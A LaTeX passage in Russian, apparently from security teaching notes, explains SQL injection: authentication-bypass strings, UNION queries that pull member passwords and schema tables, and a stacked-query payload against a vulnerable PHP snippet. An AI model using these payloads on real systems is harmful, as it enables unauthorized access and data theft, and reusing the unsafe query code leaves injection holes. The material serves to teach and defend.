 \begin{itemize}
    \item \textbf{Обход аутентификации}\\
    При помощи OR и сравнения констант можно обойти форму аутентификации. Существуют даже словари, содержащие основные запросы для обхода уязвимой формы

    Примеры запросов:\\
    \begin{grayquote}
        ' or 1=1\\
        ' or 1=1--\\
        ' or 1=1\#\\
        admin' --\\
        admin' or '1'='1
    \end{grayquote}

    \item \textbf{Union injection}\\
    При помощи UNION комбинировать данные из разных таблиц в одну. Это одна из самых популярных и опасных классических инъекций.

    Допустим, на сайте есть список товаров с уязвимой строкой поиска. Тогда, подобрав правильное количество колонок и определив их название, через UNION можно вывести практически любые данные
    \begin{grayquote}
        SELECT name, price FROM products UNION ALL SELECT name, pass FROM members\\
        \#Такой запрос позволит получить данные о таблицах и найти таблицу пользователей\\
        UNION(SELECT TABLE\_NAME,

        TABLE\_SCHEMA FROM information\_schema.tables)
    \end{grayquote}

    \item \textbf{Расщепление SQL-запроса}\\
    В некоторых СУБД можно использовать простой знак ';' для последовательного вызова вредоносных запросов.
    
    Например, если в параметры скрипта
    \begin{grayquote}
    	\$id = \$\_REQUEST['id'];\\
    	\$res = mysql\_query("SELECT * FROM news WHERE id\_news = \$id");  
    \end{grayquote}
    злоумышленником передается конструкция, содержащая точку с запятой, например 12;INSERT INTO admin (username, password) VALUES ('HaCkEr', 'foo'); то в одном запросе будут выполнены 2 команды    	
    \begin{grayquote}
		SELECT * FROM news WHERE id\_news = 12;\\
   	 	INSERT INTO admin (username, password) VALUES ('HaCkEr', 'foo');
    \end{grayquote}
    и в таблицу admin будет несанкционированно добавлена запись HaCkEr.
    

\end{itemize}
